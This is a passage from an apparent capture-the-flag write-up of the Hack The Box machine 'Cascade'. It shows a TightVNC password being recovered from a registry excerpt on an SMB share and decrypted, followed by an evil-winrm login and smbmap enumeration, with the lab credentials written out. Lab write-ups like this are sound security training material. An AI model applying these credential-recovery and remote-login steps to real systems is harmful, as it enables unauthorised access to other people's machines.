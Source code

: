 The encrypted password is listed in hexadecimal :

`"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`

The file we found is actually an excerpt from the registry entries
related to *TightVNC* on the box. The password is encrypted with
`DES`[^4] and can be decrypted with tools like *VNC Password
Recovery*[^5] :

![image](a5d1c9aad8fcf5c48523869894acff37.png)

From the folder structure on the share, this is most likely *s.smith*'s
password. Another file we find on the share in
`\\10.10.10.182\Data\IT\Email Archives\` is the email
`Meeting_Notes_June_2018.html` :

![image](image-20200724212213349.png)

The email contains a hint towards the *Administrator* account :

![image](image-20200724212425238-1595640515370.png)

Let's tuck this info away for the moment and get back to *s.smith*'s
credentials.

### User flag

With *s.smith*'s password **sT333ve2**, we're able to log onto the box
via `evil-winrm` with
`evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2` :

![image](2fae0070dcd2d05b099e64f3cf5e2e18.png)

\... and grab the user flag :

![image](575819ddb147b8333ccab9ab206a3a78.png)

Root
----

### More `SMB` enumeration

With *s.smith*'s credentials, we're back to enumerating[^6] `smb` :

``` {.php language="PHP" frame="single" breaklines="true" keepspaces="true" basicstyle="\\footnotesize\\ttfamily" showstringspaces="false"}
smbmap -u s.smith -p sT333ve2 -d cascade.local -H 10.10.10.182
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.182...
[+] IP: 10.10.10.182:445	Name: cascade.local                                     
Disk                                  	Permissions	Comment
----                                  	-----------	-------
ADMIN$                                	NO ACCESS	Remote Admin
.                                            
dr--r--r--        0 Wed Jan 29 13:01:26 2020	.
dr--r--r--        0 Wed Jan 29 13:01:26 2020	..
fr--r--r--    13312 Tue Jan 28 16:47:08 2020	CascAudit.exe
fr--r--r--    12288 Wed Jan 29 13:01:26 2020	CascCrypto.dll
dr--r--r--        0 Tue Jan 28 16:43:18 2020	DB
fr--r--r--       45 Tue Jan 28 18:29:47 2020	RunAudit.bat
fr--r--r--   363520 Tue Jan 28 15:42:18 2020	System.Data.SQLite.dll
fr--r--r--   186880 Tue Jan 28 15:42:18 2020	System.Data.SQLite.EF6.dll
dr--r--r--        0 Tue Jan 28 15:42:18 2020	x64
dr--r--r--        0 Tue Jan 28 15:42:18 2020	x86
Audit$                                    	READ ONLY	
C$                                        	NO ACCESS	Default share
.                                                  
dr--r--r--        0 Tue Jan 28 17:05:51 2020	.
```

[^1]: Simply hit `enter` when prompted for a password.
[^2]: Available in its online version at
[^3]: Output slightly modified for readability.
[^4]: For further information on *VNC* passwords and how to retrieve and
[^5]: <https://securityxploded.com/vnc-password-recovery.php>, last
[^6]: Output slightly modified for readability.
[^7]: I used a program that ships with *Kali*, `DB Browser for SQLite`,
[^8]: Personally, I like *Jetbrain*'s *dotPeek* a lot :
[^9]: Of course, the *Chef* isn't the only tool up to the task - you
[^10]: At this point, I wasn't too sure where the journey would lead me
[^11]: For more information on restoring deleted *Active Directory*